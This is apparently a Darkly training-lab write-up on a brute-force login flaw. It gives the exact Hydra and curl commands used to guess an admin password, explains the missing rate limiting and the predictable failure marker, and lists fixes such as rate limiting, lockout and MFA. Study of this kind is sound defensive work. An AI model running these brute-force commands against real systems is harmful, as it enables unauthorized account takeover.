 Brute-Force Vulnerability — Documentation
How I Found It

Step-by-step discovery process

Initial reconnaissance

Visited http://192.168.1.16/index.php?page=signin and inspected the login form with browser devtools / proxy.

Noted form parameters: username, password.

Observed the application returns a consistent failure marker: images/WrongAnswer.gif.

Performed several manual wrong attempts — no CAPTCHA, no progressive delay, no account lockout.

Identified the vulnerable behaviour

Predictable failure response (easy to detect success vs failure).

Login accepts repeated requests without throttling — suitable for automated brute force.

How I Exploited It

Exact commands and payloads used

Download wordlist

mkdir -p ~/wordlists
cd ~/wordlists
wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz
tar -xvzf rockyou.txt.tar.gz
# result: ~/wordlists/rockyou.txt


Hydra command (exact)

hydra -l admin -P ~/wordlists/rockyou.txt -F -o hydra.log 192.168.1.16 http-get-form "/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif"


-l admin → single username admin (use -L for username list).

-P → password list.

-F → stop on first success.

http-get-form with F= pointing to failure marker (images/WrongAnswer.gif).

Manual verification (curl)

# replace PASSWORD with candidate from hydra.log
curl -i "http://192.168.1.16/index.php?page=signin&username=admin&password=PASSWORD&Login=Login"


Confirm success by absence of images/WrongAnswer.gif, presence of authenticated content or redirect.

Artifacts to include in Resources

hydra.log (hydra output)

proof_curl.txt (curl response demonstrating success)

screenshot_failed.png (shows WrongAnswer.gif)

screenshot_success.png (authenticated page)

Ethics: Only test on authorized targets (your Darkly lab). Do not run these against systems without permission.

Why It Works

Underlying vulnerability explanation

Predictable failure fingerprint: The app returns a unique string/image on failed login (images/WrongAnswer.gif) so tools can reliably detect failure vs success.

No rate limiting / account lockout: The application accepts unlimited attempts from the same IP (or distributed ones) without blocking.

Credentials in GET (exposed): Sending credentials in the URL increases exposure (logs, proxy history).

Weak password policy / common passwords: Accounts may use easily guessed passwords (rockyou matches).

No bot mitigation: No CAPTCHA, MFA, or behavioral checks to block automated tools.

Technical flow:

Attacker tools -> repeated requests with different passwords
↓
Server responds with same failure marker each time
↓
Tool recognizes missing marker -> reports success

How to Fix It

Security recommendations (short & actionable)

Immediate / short-term

Block rapid attempts (rate limit)
Nginx example (basic):

limit_req_zone $binary_remote_addr zone=login:10m rate=1r/s;
server {
  location = /index.php {
    if ($arg_page = "signin") {
      limit_req zone=login burst=5 nodelay;
    }
  }
}


Use POST for login (do not send credentials in URL).

Make error messages generic (do not reveal if username exists).

Add CAPTCHA / bot challenge after N failed attempts (e.g., after 3).

Temporary IP blocking / Fail2Ban for repeated failures.

Medium / long-term

Per-account throttling & progressive lockout (example: after 5 fails lock for 15 minutes or increase delay).
Simple pseudocode:

if ($user->locked_until && now < $user->locked_until) deny();
if (password_verify($pw,$hash)) reset_failed();
else increment_failed(); if (failed >=5) lock(15min);


Enforce strong passwords & check against breached lists at registration.

Multi-Factor Authentication (MFA) for sensitive accounts.

Use secure password hashing (Argon2id / bcrypt).

Logging & alerting for credential-stuffing patterns; integrate with SIEM.

WAF rules to detect/mitigate automated attacks and block unusual request rates.

Testing after fixes

Re-run the hydra command to confirm it fails/gets blocked.

Verify CAPTCHA or lockout triggers after threshold.

Confirm credentials are not logged in URLs (POST used).

Check logs/alerts are generated on brute-force attempts.

References / Files to include in Resources/

BRUTE_FORCE.md (this doc)

hydra.log, proof_curl.txt

screenshot_failed.png, screenshot_success.png

fix_summary.txt (short bullet list for ops)
